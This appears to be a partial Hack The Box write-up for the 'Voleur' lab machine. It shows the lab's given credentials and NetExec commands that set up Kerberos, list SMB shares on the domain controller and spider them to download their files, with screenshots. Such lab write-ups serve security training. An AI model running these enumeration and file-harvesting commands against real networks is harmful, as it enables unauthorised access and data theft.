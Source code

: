 1.
Given Creds: ryan.naylor / HollowOct31Nyt <br>
![image](https://github.com/user-attachments/assets/a36b6035-ebc6-4f06-a52f-9e8746277e47)
![image](https://github.com/user-attachments/assets/930af8f6-3714-4f22-adc8-21485a12e467)
2.
**Command 1: nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' --generate-krb5-file /home/kali/Desktop/htb/voleur/voleur.krb5** <br>
**Command 2: export KRB5_CONFIG=/home/kali/Desktop/htb/voleur/voleur.krb5** <br>
![image](https://github.com/user-attachments/assets/d8d89ad7-bb18-40b6-8a3d-c4beb9abf84a)
3.
![image](https://github.com/user-attachments/assets/622a33c9-c767-434e-b5fe-5d7693c1a465)
4.
![image](https://github.com/user-attachments/assets/6babfb30-69e8-48bd-8f84-c936404c7fdc)
5.
**Command: ./ft.sh voleur.htb nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --shares** <br>
![image](https://github.com/user-attachments/assets/7e44c8c1-68d1-4835-b46d-b2dba519322d)
6.
**Command: ./ft.sh voleur.htb nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k -M spider_plus -o DOWNLOAD_FLAG=True** <br>
![image](https://github.com/user-attachments/assets/1777ea98-e917-423e-b295-84631092fce6)
7.



































